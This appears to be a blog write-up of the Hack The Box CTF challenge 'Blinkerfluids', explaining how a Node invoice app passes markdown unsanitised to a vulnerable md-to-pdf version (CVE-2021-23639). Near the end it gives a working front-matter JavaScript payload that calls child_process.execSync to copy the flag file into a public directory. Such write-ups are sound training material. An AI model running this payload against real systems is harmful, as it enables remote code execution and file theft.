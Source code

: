```yaml
---
layout: post
title:  "HTB CTF - Blinkerfluids writeup"
date:   2022-05-20 08:30:00
tags: ["ctf-writeup"]
author: "Alex Ward"
---
```


![](https://i.postimg.cc/8P3t2K8M/Pasted-image-20220515091447.png)

A fairly simple solve. The site doesn't have much functionality and
the only input is the ability to use markdown to create an invoice.

<!-- more -->

![](https://i.postimg.cc/pLFqRfx7/Pasted-image-20220515091519.png)

Even though the generated invoice weren't viewable in the app, viewing
the source code showed they were available under `/static/invoices/<uuid>.pdf`.

```tree
.
├── build-docker.sh
├── challenge
│   ├── database.js
│   ├── helpers
│   │   └── MDHelper.js
│   ├── index.js
│   ├── invoice.db
│   ├── package.json
│   ├── routes
│   │   └── index.js
│   ├── static
│   │   ├── css
│   │   │   ├── bootstrap.min.css
│   │   │   ├── easymde.min.css
│   │   │   └── main.css
│   │   ├── images
│   │   │   └── favicon.png
│   │   ├── invoices
│   │   │   └── <uuid>.pdf
│   │   └── js
│   │       ├── easymde.min.js
│   │       ├── jquery-3.6.0.min.js
│   │       └── main.js
│   └── views
│       └── index.html
├── config
│   └── supervisord.conf
├── Dockerfile
├── exploit.txt
└── flag.txt
```

The source shows that the markdown content is passed unsanitised to `makePDF`.

```js
router.post('/api/invoice/add', async (req, res) => {
    const { markdown_content } = req.body;

    if (markdown_content) {
        return MDHelper.makePDF(markdown_content)
            .then(id => {
```

`MDHelper.js` requires `md-to-pdf`, and the `package.json` reveals the
version to be `4.1.0`. A quick Google search later takes us to
[CVE-2021-23639](https://security.snyk.io/vuln/SNYK-JS-MDTOPDF-1657880),
a vulnerability allowing Javascript to be run in the
[front matter](https://jekyllrb.com/docs/front-matter/) of the markdown.

```js
---js
(1+1;)
---
```

To get the flag I first tried `cat`ing the flag into the pdf, which didn't work.

Next, I spend some time faffing trying to get a reverse shell to work.

Finally, my brain woke up and I realised I could just `cat` the flag to a
readable directory (`./static/invoices/`).

```js
---js
((require("child_process")).execSync("cat /flag > ./static/invoices/flag.txt"))
---
```


